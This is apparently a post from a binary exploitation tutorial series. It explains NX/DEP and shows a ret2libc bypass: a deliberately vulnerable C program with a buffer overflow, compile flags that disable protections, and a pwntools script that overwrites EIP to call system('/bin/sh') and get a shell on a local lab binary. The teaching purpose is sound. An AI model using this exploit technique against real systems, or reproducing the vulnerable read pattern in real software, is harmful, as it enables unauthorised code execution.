





In this post we are going to learn an exploit mitigation technique: what it is and how to bypass it.

New to the series? check out my previous posts [here](/blog/series/binary-exploitation-adventures).

## No Execute

Last time, we put shellcode on the stack and called it to get code execution. <br>
In modern binaries, usually what happens is that the stack is not executable, means we can put something on the stack but it will only be considered a piece of data by the program and not some cpu instruction. This technique is called **NX** (No eXecute) or **DEP** (Data Execution Prevention).

Although the data on the stack is not executable, making a function call and passing required/desired arguments is still allowed. We're going to make use of this fact.

When we are writing code for a program, we don't write code for `print` and such functions. They are said to be built-ins. When we compile the program, the compiler links the program to a library (shared object) in which it would be able to find definitions of those functions during execution. <br>
Such programs are termed as Dynamically Compiled which we mostly deal with because this process saves the coder a lot of time and effort, while the opposite are Statically Compiled programs which we won't talk about for now.

Most of the C programs - whether it's x86 or x64 - rely on **libc**, the default C library.
<details><summary>We can see the shared objects (libraries) being used by a program, with the <code>ldd</code> command</summary>




</details><br>

Since during the program execution, the program is making use of library functions, so the library (libc) is mapped in memory. We can abuse this by finding memory addresses and making calls to other functions present in the library as per our need (or as per desire ;)

`print`, `write`, `system`, `exit`, etc are some of the functions present in the libc out of which, for now, we are most interested in `system`.

### Setup

Using the code from previous exercise:

```c
#include <stdio.h>
#include <unistd.h>

int overflow(){
    char buffer[500];
    int userinput;
    userinput = read(0, buffer, 700);
    printf("\nUser provided %d bytes. Buffer content is: %s\n", userinput, buffer);
    return 0; 
}

int main(int argc, char *argv[]){
    overflow();
    return 0;
}
```


Compile with the command:

```shell
gcc -m32 -fno-stack-protector vulnerable.c -o vulnerable
```


Notice that we are not using the `-z execstack` flag anymore, which makes the stack executable.

Our program has following protections:




Before proceeding any further, remember to disable ASLR.

## Exploitation

We find the offset of EIP to be 516. You know how, right?

We want to execute `system("/bin/sh")` for which we are going to overwrite the EIP with the address of the `system` function, and then we'll give the return address which can be anything (e.g JUNK) but we will keep it to be the address of the `exit` function so that our program terminates nicely. Lastly, we will give the function arguments which, in present case, would be the address of the `/bin/sh` string. <br>
Remember stack alignment? revise [here](/blog/posts/pwn-0x01-buffer-overflow/#the-stack)

<details><summary>With the <code>vmmap</code> command in gdb, we can see that the libc/certain sections of libc are loaded into the program</summary>




</details><br>

Let's get our required memory addresses with gdb:




Now that we have all we needed, let's construct our exploit:

```py
from pwn import *

exe = "./vulnerable"
elf = context.binary = ELF(exe,checksec=False)

system_addr = 0xf7dff040
exit_addr = 0xf7df1990
binsh_addr = 0xf7f46338

padding = "A"*516

payload = flat(padding, system_addr, exit_addr, binsh_addr)

#write("payload",payload)
io = process(exe)
io.sendline(payload)
io.interactive()
```


Let's run the exploit:



And.. Yea! we got our shell :fire:
